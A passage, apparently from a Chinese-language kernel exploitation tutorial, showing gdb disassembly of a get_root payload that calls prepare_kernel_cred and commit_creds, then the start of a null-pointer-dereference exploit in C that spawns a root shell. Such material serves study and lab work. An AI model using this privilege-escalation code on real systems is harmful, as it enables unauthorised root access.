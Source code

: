 >  0x0000000000400afb为get_root函数的地址，查看汇编代码

	(gdb) x/30i 0x0000000000400afb
	   0x400afb:    push   %rbp
	   0x400afc:    mov    %rsp,%rbp
	   0x400aff:    push   %rbx
	   0x400b00:    sub    $0x8,%rsp
	   0x400b04:    mov    0x2b6b55(%rip),%rax        # 0x6b7660
	   0x400b0b:    test   %rax,%rax
	   0x400b0e:    je     0x400b36
	   0x400b10:    mov    0x2b6b51(%rip),%rax        # 0x6b7668
	   0x400b17:    test   %rax,%rax
	   0x400b1a:    je     0x400b36
	   0x400b1c:    mov    0x2b6b3d(%rip),%rbx        # 0x6b7660
	   0x400b23:    mov    0x2b6b3e(%rip),%rax        # 0x6b7668
	   0x400b2a:    mov    $0x0,%edi                  # 参数0
	   0x400b2f:    callq  *%rax                      # 调用prepare_kernel_cred函数
	   0x400b31:    mov    %rax,%rdi                  # 保存调用结果
	   0x400b34:    callq  *%rbx                      # 调用 commit_creds函数
	   0x400b36:    nop
	   0x400b37:    add    $0x8,%rsp
	   0x400b3b:    pop    %rbx
	   0x400b3c:    pop    %rbp
	   0x400b3d:    retq   

###  exploit_null_ptr_deref.c 
	
	#define _GNU_SOURCE
	
	#include <stdio.h>
	#include <stdlib.h>
	#include <unistd.h>
	#include <sys/types.h>
	#include <sys/wait.h>
	#include <sys/mman.h>
	#include <string.h>
	
	struct cred;
	struct task_struct;
	 
	typedef struct cred *(*prepare_kernel_cred_t) (struct task_struct *daemon) __attribute__((regparm(3)));
	typedef int (*commit_creds_t) (struct cred *new) __attribute__((regparm(3)));
	 
	prepare_kernel_cred_t   prepare_kernel_cred;
	commit_creds_t    commit_creds;
	 
	void get_shell() {
	  char *argv[] = {"/bin/sh", NULL};
	 
	  if (getuid() == 0){
	    printf("[+] Root shell success !! :)\n");
	    execve("/bin/sh", argv, NULL);
	  }
	  printf("[-] failed to get root shell :(\n");
	}
	 